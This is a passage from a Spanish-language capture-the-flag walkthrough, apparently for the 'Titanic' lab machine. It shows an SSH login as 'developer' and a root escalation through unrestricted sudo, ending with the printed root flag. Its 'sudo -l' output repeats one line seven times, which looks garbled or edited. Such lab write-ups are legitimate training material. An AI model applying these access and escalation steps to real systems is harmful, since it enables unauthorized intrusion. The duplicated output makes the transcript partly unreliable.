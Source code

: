 ```Shell 
ssh developer@10.10.11.55
```

Resultado: 

```Shell 
developer@titanic:~$ whoami
developer
```

Explicación: obtenemos acceso al servidor con una shell, somos el usuario developer


## Paso 22 -

Acción: buscamos formas de elevar nuestros privilegios 

```Shell 
developer@titanic:~$ sudo -l
```

Resultado:

```Shell 
Matching Defaults entries for developer on titanic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User developer may run the following commands on titanic:
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
```

Acción:

```Shell 
developer@titanic:~$ sudo /usr/bin/bash
root@titanic:/home/developer# whoami
root
root@titanic:/home/developer# cd
root@titanic:~# ls
cleanup.sh  images  revert.sh  root.txt  snap
root@titanic:~# cat root.txt 
eada467fe1d9c6f8f39f305a869af988
```

---
